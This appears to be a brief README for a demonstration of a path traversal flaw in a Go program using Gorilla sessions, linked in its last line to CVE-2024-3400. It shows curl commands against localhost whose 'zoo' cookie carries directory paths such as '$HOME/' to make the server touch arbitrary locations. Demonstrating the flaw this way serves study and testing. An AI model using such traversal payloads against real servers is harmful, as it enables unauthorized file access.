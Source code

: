 # A Gorilla Session Vulnerable to Path Directory Traversal

```bash
export SESSION_KEY=gorilla
```

```bash
go run escapezoo.go
```

# Path Directory Traversal

```bash
curl --cookie "zoo=$PREFIX/tmp" http://localhost:8080
```

```bash
curl --cookie "zoo=$HOME/" http://localhost:8080
```

# CVE-2024-3400 related vulnerability

